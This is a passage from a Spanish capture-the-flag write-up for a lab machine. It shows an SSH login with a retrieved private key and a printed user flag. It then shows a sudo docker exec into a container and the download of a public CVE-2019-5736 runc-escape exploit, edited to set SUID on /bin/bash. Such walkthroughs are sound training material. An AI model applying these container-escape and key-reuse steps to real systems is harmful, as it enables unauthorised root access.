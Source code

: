 ```R
```
*Podemos ver que podemos obtener la id_rsa de noah.*

```R
❯ ll
.rw-r--r-- user user 1.6 KB Sun Oct  6 18:06:53 2024 󰷖 id_rsa

❯ chmod 600 id_rsa
```
*Nos la traemos y le damos permisos para poder utilizarla...*

```R
❯ ssh -i id_rsa noah@10.10.10.230
noah@thenotebook:~$ export TERM=xterm
```
*Ahroa podemos ver que nos hemos conseguido conectar correctamente como noah*

```R
noah@thenotebook:~$ cat user.txt
1e3b3cf9ea29bea33d72972f16733e6d
```
*Ahora podemos ver que tenemos la user flag...*

# Escalada
1. Docker 
```R
noah@thenotebook:~$ sudo -l
(ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*
```
*Vemos que podemos ejecutar como sudo...*

```R
noah@thenotebook:~$ sudo /usr/bin/docker exec -it webapp-dev01 bash
root@0f4c2517af40:/opt/webapp# whoami
root
```
*Vemos que hemos obtenido root pero del docker.*

```R
noah@thenotebook:~$ docker --version
Docker version 18.06.0-ce, build 0ffa825
```
*Podemos ver la version de docker...*

```R
https://github.com/Frichetten/CVE-2019-5736-PoC
```
*Podemos ver en este repositorio un exploit para el docker...*

```R
❯ wget https://raw.githubusercontent.com/Frichetten/CVE-2019-5736-PoC/refs/heads/master/main.go
```
*Nos lo descargamos...*

```R
❯ cat -l java main.go
26   │     var payload = "#!/bin/bash \n chmod u+s /bin/bash"
```
*Ahora le cambiamos para que nos de la shell de forma privilegiada.*
